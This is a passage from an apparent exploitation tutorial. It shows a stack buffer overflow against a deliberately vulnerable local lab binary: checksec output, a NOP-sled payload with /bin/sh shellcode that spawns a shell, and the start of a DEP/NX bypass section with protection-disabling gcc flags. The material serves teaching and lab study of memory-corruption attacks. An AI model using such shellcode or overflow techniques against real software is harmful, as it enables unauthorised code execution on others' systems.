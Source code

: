 


Executing the whole payload :

    pwnbox@lab:~/DEP$ python bypass_no_prot.py INFO
    [*] '/home/pwnbox/DEP/binary/vuln_no_prots'
        Arch:     i386-32-little
        RELRO:    No RELRO
        Stack:    No canary found
        NX:       NX disabled
        PIE:      No PIE (0x8048000)
        RWX:      Has RWX segments
    [+] Starting local process './binary/vuln_no_prots': pid 65330
    [*] Switching to interactive mode
    Hello, I'm your friendly & totally secure binary :)!
    What is your name?
    Hello: \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x901��F1�1��\x80�[1��C\x07\x89\x89C\x0c\xb0\x0b\x8d\x8dS\x0c̀���\xff\xff/bin/sh ��\xff!
    $ whoami
    pwnbox
    $  



We successfully continued execution from our stack.
We *skipped* the `NOP`-sled and our shell got popped.
We easily achieved code execution
So far so good.



## Bypassing DEP/NX
Okay so far this was just like any other simple buffer overflow tutorial out there.
Now things get a little more interesting.
We need to craft a new exploit, for the same binary, but this time with DEP/NX enabled.
The exploit from before will not work anymore as shown below.


Our new binary has the following configuration:


    gcc vuln.c -o vuln_with_nx -fno-stack-protector -no-pie -Wl,-z,norelro -m32

    gdb ./vuln_with_nx

    pwndbg> checksec
    [*] '/home/pwnbox/DEP/binary/vuln_with_nx'
        Arch:     i386-32-little
        RELRO:    No RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)

